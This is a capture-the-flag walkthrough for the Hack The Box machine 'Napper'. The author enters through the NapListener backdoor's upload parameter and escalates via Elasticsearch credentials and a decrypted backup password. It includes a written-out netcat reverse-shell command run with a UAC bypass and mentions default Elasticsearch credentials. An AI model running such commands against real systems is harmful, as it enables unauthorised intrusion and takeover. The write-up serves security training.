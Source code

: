 # PORT SCAN
* **80** &#8594; HTTP (IIS)
* **443** &#8594; HTTPS
* **7680** &#8594; PANDO-PUB

<br><br><br>

# ENUMERATION & USER FLAG
The port 7680 is pretty uncommon and can be used (as standard) for **<u>Pando Media Public Distribution</u>** or **<u>WUDO</u>** (Windows Update Delivery Optimization). I think we will have more info about it just after we performed foothold.

Let's move on the HTTP and HTTPS, according to the nmap scan we have a subdomain `app.napper.htb`

![a3e147a566301000c9cc910d12398928.png](img/a3e147a566301000c9cc910d12398928.png)

The certificate show us the issuer which is another subdomain o the box called `ca.napper.htb`

![cb7c69b3bde0772ef56a1ad7364347bb.png](img/cb7c69b3bde0772ef56a1ad7364347bb.png)

Now the website is similar to a security blog (like github.io) build it with <u>Hugo</u>

![698078d9fc83b2b9dd6a6f7a0ca54c64.png](img/698078d9fc83b2b9dd6a6f7a0ca54c64.png)

All right time to explore, a good part of the blog is based on IIS management (SSL included) and the website itself is used as example

![455416b0ce6337cce50dce628c7e7b9e.png](img/455416b0ce6337cce50dce628c7e7b9e.png)

Cool the blog is splitted in half, basic authentication on IIS systems and high level understanding of Reverse Engineering.

While I was reading I run some instance of dirb and ffuf and we have a new subdomain `internal.napper.htb`

![21e2a49e16e0306fc74b6def5add2ced.png](img/21e2a49e16e0306fc74b6def5add2ced.png)

Here we have the basic authentication in action

![4f01a560018b9c74c6463e5570f88431.png](img/4f01a560018b9c74c6463e5570f88431.png)

Looking at the blog post there is one where used the Powershell to implement basic authentication

![8e9e74570c41a20b4e32eb462e4427f6.png](img/8e9e74570c41a20b4e32eb462e4427f6.png)

It works, we have access here and is the same blog but with a single articl called `**INTERNAL** Malware research notes`

![58e2e4511f05d7ae69cc4551de48f166.png](img/58e2e4511f05d7ae69cc4551de48f166.png)

Time to read, again! The article talk about the [Naplistener](https://www.darkreading.com/threat-intelligence/custom-naplistener-malware-network-based-detection-sleep) malware.

We have this in a code block

> This means that any web request to /ews/MsExgHealthCheckd/ that contains a base64-encoded .NET assembly in the sdafwe3rwe23 parameter will be loaded and executed in memory. It's worth noting that the binary runs in a separate process and it is not associated with the running IIS server directly.

Well that's what I do (as parameter I used `whoami` in base64)

![7862f5dfa6313f0ba7b66bf582e556ca.png](img/7862f5dfa6313f0ba7b66bf582e556ca.png)

We also have a LOG with all the discovery made by the team

![c8f47c925bbf7dcd1f6a3022dd7249d8.png](img/c8f47c925bbf7dcd1f6a3022dd7249d8.png)

Cool so what we know so far is that we need a `.NET assembly` and use it to get a shell, looking at some article online I found the listener's code and what is intersting is the bottom part where manage the parameter 

![f871b31c8d551fda0589ce61038c5001.png](img/f871b31c8d551fda0589ce61038c5001.png)

<br><br>

Now with some trial and error I need to accomplish the listener and trigger a reverse shell 

What I have tried was to usea [C# Rev Shell](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) and use `mcs` Command Line Utility in order to create a dll, encoded in base64 and use it as parameter on the POST request but nothing return back to us (same thing with the EXE extension). Something is missing I need more reasearch but I don't think I will find an *"how to trigger NAPLISTENER malware"* lol

I tried a slighty different approach I used this C# code which download a ps1 script containing the powershell reverse shell (base64 encoded edition) and execute it

![87fe30c994e59b551a1126bbdc1ffdca.png](img/87fe30c994e59b551a1126bbdc1ffdca.png)

The key point was the `Run()` class because of the (according to the image above) `assembly.CreateInstance(assembly.GetName().Name + ".Run")`. Cool, than everything goes how is supposed to downloading the powershell script and execute.

Finally my netcat get our reward

![31620a24a45a2130419da001ef95cec7.png](img/31620a24a45a2130419da001ef95cec7.png)

<br><br><br>

# PRIVILEGE ESCALATION
First thing that I have checked are the process that are running in the background and we have the [Elastic Search Service](https://www.elastic.co/elasticsearch/service)

![60344cb5dddba401b3f52c5a2e3d1b94.png](img/60344cb5dddba401b3f52c5a2e3d1b94.png)

Can make sense this service is the one to be abused since Elastic is the company that have discovered and analyzed the NAPLISTENER malware, the version is `8.8.0`

![ac34d78be95006a63f8d2c4441dc1343.png](img/ac34d78be95006a63f8d2c4441dc1343.png)

It doesn't appear to have some known vulnerability, inside the configuration directory of the application we have a yaml file with the port is used for `Elastic Software`

![9a1b7b7be49a400c9ac355152afe9a89.png](img/9a1b7b7be49a400c9ac355152afe9a89.png)

Time to use chisel in order to retrieve the content of the port 9200 and we need to deal with another **<u>Basic Authentication</u>** form, the default credentials for elastic seems to be <u>`elastic:changeme`</u>

I tried to run some hydra bruteforce while I was out for some NPC like things but no response at all, time to use winPEAS and this is interesting

![0ecc9ee29bce66a7e6a4bba5199a5ef5.png](img/0ecc9ee29bce66a7e6a4bba5199a5ef5.png)

Let's see what we have here and we have a `.env` file with the username and password of elastic

![06edeab9a24e46c0349c8e848609fc30.png](img/06edeab9a24e46c0349c8e848609fc30.png)

![3ede635afb3def38674417a54006b5db.png](img/3ede635afb3def38674417a54006b5db.png)

Now we are free to play with elastic :)
Thanks to god [hacktricks have a page just for that](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch)

> **<u>Elasticsearch</u>** is a versatile tool for searching, analyzing, and visualizing large volumes of data, particularly when that data is text-heavy or has a significant unstructured component. Its flexibility, scalability, and speed make it suitable for a broad range of applications across various industries

![f635479b88a2e5f02e99998398a3d360.png](img/f635479b88a2e5f02e99998398a3d360.png)

Now will be a good idea to tak the `a.exe` and try to do some RE, this is just intuition apparently everything inside the folder is used for elastisearch so maybe this executable can help us to retrieve something usefull. The executable appear to be written in GO so I installed [this extension](https://github.com/mooncat-greenpy/Ghidra_GolangAnalyzerExtension) for a better RE.

Inside the `main.main` we have the `genKey` function but doesn't seems to be usefull but using `strings` and some patience I found something like this 

![ea3aa65d016a1a89f9b5826a1ac88222.png](img/ea3aa65d016a1a89f9b5826a1ac88222.png)

So maybe is using an AES CFB encryption

I saw before that the `/_search` endpoint can gave us a blob with the seed of what it seems to be the `backup` user password

![91acfdd66aa09fb52a65bc9ecb6394fa.png](img/91acfdd66aa09fb52a65bc9ecb6394fa.png)

It seems it change after a few minutes, using Bard AI I successfully retrieved a GO script that can help me to retrieve the plaintext password given the blob and the seed (according to what we discovered before)

![0e3c77ee59929d1f18694dda27856e1d.png](img/0e3c77ee59929d1f18694dda27856e1d.png)

![a783a37466ccb73f68a8b5876bd85437.png](img/a783a37466ccb73f68a8b5876bd85437.png)

That's cool, now I need to figure out how to change user since there is no WinRM port. [RunasCs.exe](https://github.com/antonioCoco/RunasCs) is what we need and some timing for the password retrieval

![f2ec004c44b67a96eb3e94112934d28a.png](img/f2ec004c44b67a96eb3e94112934d28a.png)

Beautiful now let's see if we can get a shell somehow! Just upload netcat on the windows target machine and I used this line of code

`.\ras.exe backup [PASS] "C:\Users\ruben\Desktop\nc.exe 10.10.14.11 5555 -e cmd.exe" -t 8 --bypass-uac`

![c9fac729f4903d80bcd15c61b9d5ccde.png](img/c9fac729f4903d80bcd15c61b9d5ccde.png)

<br><br>

Cool thing now let's enumerate back and simply we are in the Administrator groups! Cool!

![00257b4355ea13e63f174a75fd8c9e8f.png](img/00257b4355ea13e63f74a75fd8c9e8f.png)
